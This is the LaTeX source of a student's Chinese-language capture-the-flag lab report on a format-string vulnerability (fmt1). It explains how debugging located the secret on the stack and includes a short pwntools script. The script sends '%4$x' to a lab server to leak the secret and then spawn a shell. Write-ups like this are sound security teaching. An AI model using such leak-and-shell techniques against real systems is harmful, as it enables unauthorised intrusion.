\documentclass{article}
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
  language=Python,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,%设置行号位置none不显示行号
  %numberstyle=\tiny\courier, %设置行号大小
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  escapeinside=``,%逃逸字符(1左面的键),用于显示中文例如在代码中`中文...`
  tabsize=4,
  extendedchars=false %解决代码跨页时,章节标题,页眉等汉字不显示的问题
}

\usepackage[utf8]{inputenc}
\usepackage{float}
\date{2023/5/9}
\usepackage{ctex}
\usepackage{graphicx}
\title{Format String}
\author{叶梓淳 520030910302}

\begin{document}

\maketitle

\section{fmt1}
    阅读程序汇编代码,程序的主体逻辑如下:首先初始化变量secret,然后提示用户输入变量name的值,再调用函数printf("welcome" + name),接着提示用户输入secret的值,如果与初始化的值一致则执行系统调用函数system("bin/sh"),从而得到flag,否则提示用户失败,程序退出。
    
    由于在输入name的值时有参数\%5s限制了只能读入5个字符,因此不能利用栈溢出。漏洞为编写name成格式化字符串的形式让程序自动打印出secret的值,最后输入即可。
  
    逐步调试程序,得到下图:
    \begin{figure}[H]
		\begin{center}
			
\includegraphics[width=0.8\textwidth]{1.png}
		\end{center}
    \end{figure}
    观察到通过执行read函数,secret的值写到了栈上地址为0xffffd600的位置,共4个字节。接着调试程序,直到执行printf函数:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{2.png}
    	\end{center}
    \end{figure}
    此时观察栈顶存放的值即是printf的参数,地址为0xffffd5f0,距离secret的地址16个字节。因此,想要将secret打印出来,只需令name为\%4\$x即可。需要注意的是最后输入secret只接受十进制形式,最终得到脚本如下:    
    
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40011)

io.recvuntil("name")

io.sendline(b'%4$x')

io.recvuntil("welcome,")

secret = io.recv(8)

secret = int(secret, 16)

io.sendline(str(secret))

io.interactive()

        \end{lstlisting}
    \end{itemize}

    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{3.png}
    	\end{center}
    \end{figure}
 
   
   
   
 

\end{document}
